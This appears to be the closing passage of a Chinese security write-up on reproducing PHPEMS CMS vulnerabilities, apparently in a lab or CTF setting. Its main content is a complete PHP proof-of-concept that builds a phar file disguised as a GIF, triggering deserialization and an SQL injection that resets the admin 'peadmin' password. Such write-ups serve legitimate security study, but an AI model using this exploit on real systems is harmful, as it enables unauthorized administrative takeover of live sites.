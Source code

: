 然后生成下phar上传即可触发反序列化了

```php
&lt;?php  
namespace PHPEMS{  
    class session{  
        public function __construct()  
        {  
            $this-&gt;sessionid="1111111";  
            $this-&gt;pdosql= new pdosql();  
            $this-&gt;db= new pepdo();  
        }  
    }  
    class pdosql  
{  
        private $db ;  
        public function __construct()  
{  
            $this-&gt;tablepre = 'x2_user set userpassword="e10adc3949ba59abbe56e057f20f883e" where username="peadmin";#--';  
            $this-&gt;db=new pepdo();  
        }  
    }  
    class pepdo  
{  
        private $linkid = 0;  
    }  
}  
namespace {  
    $o = new \PHPEMS\session();  
    $filename = '111.phar';// 后缀必须为phar，否则程序无法运行  
    file_exists($filename) ? unlink($filename) : null;  
    $phar=new Phar($filename);  
    $phar-&gt;startBuffering();  
    $phar-&gt;setStub("GIF89a&lt;?php __HALT_COMPILER(); ?&gt;");  
    $phar-&gt;setMetadata($o);  
    $phar-&gt;addFromString("foo.txt","bar");  
    $phar-&gt;stopBuffering();  
    system('copy 111.phar 111.gif');  
}  

?&gt;
```

‍

然后进到后台管理拿到第二个flag

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bbee0df671e48c139d6b899c0eb51456065fc35b.png)​

其实有个RCE，不过参考下文章吧，我就没去看那个了

‍

‍

总结
==

整体上这个CMS还是非常值得去复现学习的，因为他的框架稍乱，引用也难受，但也是一种挑战了，真强啊这些师傅

‍

参考链接
====

<https://mp.weixin.qq.com/s/P7akQHPp4saCl16E0Kw4tA>